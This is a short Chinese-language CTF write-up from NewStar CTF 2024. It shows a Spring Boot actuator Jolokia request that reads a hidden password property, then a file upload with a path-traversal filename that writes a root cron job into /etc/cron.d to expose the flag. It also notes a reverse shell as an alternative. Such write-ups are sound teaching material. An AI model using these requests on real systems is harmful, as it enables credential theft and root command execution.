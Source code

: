 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# 隐藏的密码

根据题目隐藏的密码可能是存在信息泄露，进行目录扫描，可以扫到 `env` 和 `jolokia` 端点，可以找到 `caef11.passwd` 属性是隐藏的

```http
POST /actuator/jolokia HTTP/1.1
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["caef11.passwd"]}
```

读到密码后，根据题目描述和属性的名字可得用户名为 `caef11`

```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=--abc
Cookie: PHPSESSID=kc8dfc8njb57d311qlmh7ij0d2; JSESSIONID=E1EF0128A9A427C2593DA64FAE3E2102

----abc
Content-Disposition: form-data; name="file"; filename="../etc/cron.d/testt"
Content-Type: application/octet-stream

*/1 * * * * root cat /flag | xargs -I {} touch /{}

----abc--
```

通过写定时任务（计划任务）的方式，以 flag 为文件名在根目录创建新文件，通过 `ls` 查看 flag，或者反弹 shell 也可以
